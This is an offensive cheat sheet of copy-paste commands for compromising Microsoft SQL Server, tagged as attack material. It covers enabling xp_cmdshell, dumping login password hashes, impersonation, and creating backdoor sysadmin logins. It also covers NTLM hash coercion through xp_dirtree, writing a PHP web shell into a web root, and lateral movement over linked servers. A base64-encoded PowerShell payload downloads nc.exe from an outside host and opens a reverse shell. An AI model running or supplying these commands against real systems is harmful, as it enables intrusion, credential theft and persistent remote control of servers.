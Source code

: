 # mssql-cmd

% mssql, Microsoft SQL Server, 1433
#plateform/linux  #target/remote  #protocol/sql  #port/1433 #cat/ATTACK



## configure - turns on advanced options
```
sp_configure 'show advanced options', '1'
RECONFIGURE
```

## configure -  enable xp_cmdshell 
```
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

## configure -  enable Ole Automation Procedures
```
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE
```

## enum - Get databases
master, tempdb, model, msdb arr default DB
```
SELECT name FROM master.dbo.sysdatabases
```

## enum - Get tables of a databases
```
SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES;
```

## enum - select records of a table
```
SELECT * FROM <databaseName>.dbo.<tableName>
```

## enum - Get users
```
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
```

## enum - check admin rights
```
SELECT SYSTEM_USER;
SELECT IS_SRVROLEMEMBER('sysadmin');
```

## enum - identify users that we can impersonate
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

## enum - check readfile priv (OPENROWSET)
```
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
```

## privesc - impersonate user
```
EXECUTE AS LOGIN = '<user|sa>'
```

## persist - Create user with sysadmin privs
```
CREATE LOGIN jubeaz WITH PASSWORD = '<password|Jube@z123!'
sp_addsrvrolemember 'jubeaz', 'sysadmin'
```

## execute command
```
EXEC master..xp_cmdshell '<cmd|whoami /all>'
```
## Hash gathering - 
sudo impacket-smbserver share ./ -smb2support
sudo responder -I tun0
```
xp_dirtree '\\<ip>\any\thing'
exec master.dbo.xp_dirtree '\\<ip>\any\thing'
EXEC master..xp_subdirs '\\<ip>\anything\'
EXEC master..xp_fileexist '\\<ip>\anything\'
```

## reverseshell
python -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\temp\nc.exe"); c:\windows\temp\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'
```
exec xp_cmdshell 'powershell -exec bypass -enc <b64_payload>
```


## extract hash for cracking
```
SELECT @@SERVERNAME + N'_' + [name] + N':' + CONVERT(NVARCHAR(256), password_hash, 1) FROM sys.sql_logins WHERE [name] NOT LIKE N'##%';
```

## read file (OPENROWSET)
```
SELECT * FROM OPENROWSET(BULK N'<path|C:/Windows/System32/drivers/etc/hosts>', SINGLE_CLOB) AS Contents
```

## write file
enable Ole Automation Procedures
```
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```

## Trustable Links - Get Linked Servers (exec)
```
EXEC sp_linkedservers
```

## Trustable Links - Get Linked Servers (select)
```
select * from master..sysservers
```
## Trustable Links - Get Linked Servers logins (select)
```
SELECT  sp.name, s.name, ll.remote_name FROM sys.linked_logins ll INNER JOIN sys.server_principals sp ON ll.local_principal_id = sp.principal_id INNER JOIN sys.servers s ON s.server_id = ll.server_id
```

## Trustable Links - Execute queries
```
select * from openquery("<srvname>", '<query>')
```

## Trustable Links - Get databases
master, tempdb, model, msdb arr default DB
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT name FROM master.dbo.sysdatabases')
SELECT name FROM master.dbo.sysdatabases
```

## Trustable Links - Get tables of a databases
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT * FROM <databaseName>.INFORMATION_SCHEMA.TABLES')
```

## Trustable Links - select records of a table
```
SELECT * FROM OPENQUERY("<srvname>",'SELECT * FROM <databaseName>.dbo.<tableName>')
```

## Trustable Links - create remote admin
```
EXECUTE('EXECUTE(''CREATE LOGIN <login|jubeaz> WITH PASSWORD = ''''<password|Jub@z123!>'''' '') AT "<remote_srvname>"') AT "<local_srvname>"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''<login|jubeaz>'''' , ''''sysadmin'''' '') AT "<remote_srvname>"') AT "<local_srvname>"
```


## Trustable Links - turns on advanced options
```
select 1 from openquery("<remote_srvname>", 'select 1; exec sp_configure ''show advanced options'', 1; reconfigure')
EXECUTE('sp_configure ''show advanced options'',1;reconfigure;') AT "<remote_srvname>"
```

## Trustable Links -  enable xp_cmdshell 
```
select 1 from openquery("<remote_srvname>", 'select 1; exec sp_configure ''xp_cmdshell'', 1; reconfigure')
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "<remote_srvname>"
```


## Trustable Links - test command exec 
if return 1 its good
```
select 1 from openquery("<remote_srvname>", 'select 1; exec master..xp_cmdshell ''dir c:''')
```


## Trustable Links - reverseshell
python -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\temp\nc.exe"); c:\windows\temp\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'
```
select 1 from openquery("<remote_srvname>", 'select 1; exec master..xp_cmdshell ''powershell -exec bypass -enc <b64_payload>''')
```